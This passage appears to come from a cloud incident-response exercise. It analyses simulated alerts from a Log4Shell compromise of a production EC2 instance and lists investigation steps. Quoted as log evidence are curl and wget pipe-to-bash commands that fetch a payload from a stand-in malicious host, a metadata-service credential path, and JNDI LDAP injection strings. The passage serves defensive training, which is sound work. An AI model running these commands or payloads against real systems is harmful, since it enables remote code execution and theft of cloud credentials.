 #### **Alert 3: EC2 Metadata Access Attempted (AWS Config)**

**Telemetry Data (AWS Config Logs):**
- **Source Instance**: `EC2-App-Prod-01`
- **Metadata Path Accessed**: `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
- **Event Timeline**:
  - **9:30 PM** - Multiple HTTP GET requests to the metadata endpoint from within `EC2-App-Prod-01`

**Analysis:**  
The attacker likely attempted to retrieve IAM credentials by querying the instance metadata, which can be accessed locally. This is a common technique for escalating privileges by gaining access to temporary credentials assigned to the instance.

<div class="neon-line"></div>

#### **Alert 4: Execution of Unfamiliar Processes (CloudWatch Logs)**

**Telemetry Data (CloudWatch Logs):**
- **Source Instance**: `EC2-App-Prod-01`
- **Commands Executed**:
  - `/bin/bash -c "curl http://malicious-domain.com/payload.sh | bash"`  
  - `/bin/bash -c "wget http://malicious-domain.com/payload.sh -O - | bash"`
- **Event Timeline**:
  - **9:35 PM** - Remote script execution initiated using `curl`.
  - **9:40 PM** - Additional script execution initiated using `wget`.

**Analysis:**  
These commands indicate that a malicious payload has been downloaded and executed, likely as a result of exploiting the Log4Shell vulnerability in the Java-based application.

<div class="neon-line"></div>

### **Investigation Steps**

Here’s a structured investigation flow to analyze the scenario and understand the attack’s progression.

#### **Step 1: Confirm Exploitation of CVE-2021-44228 (Log4Shell)**

- **Analyze Application Logs on `EC2-App-Prod-01`**:
  - Look for signs of suspicious JNDI lookup calls (`jndi:ldap://malicious-domain.com/`) within the Java application logs. These LDAP calls are a known indicator of Log4Shell exploitation.
  
- **Review Web Access Logs**:
  - Check access logs for unusual patterns such as `GET` requests with `${jndi:ldap://malicious-server/...}` strings that might indicate the use of Log4Shell.

#### **Step 2: Investigate Unusual API Calls and Metadata Access**

- **Analyze CloudTrail for Unauthorized API Actions**:
  - Identify all API actions performed by `EC2-App-Prod-01`, especially the creation of new security groups, which could facilitate unrestricted access.
  - Verify if the metadata service requests were successful and if IAM temporary credentials were retrieved by the attacker.
  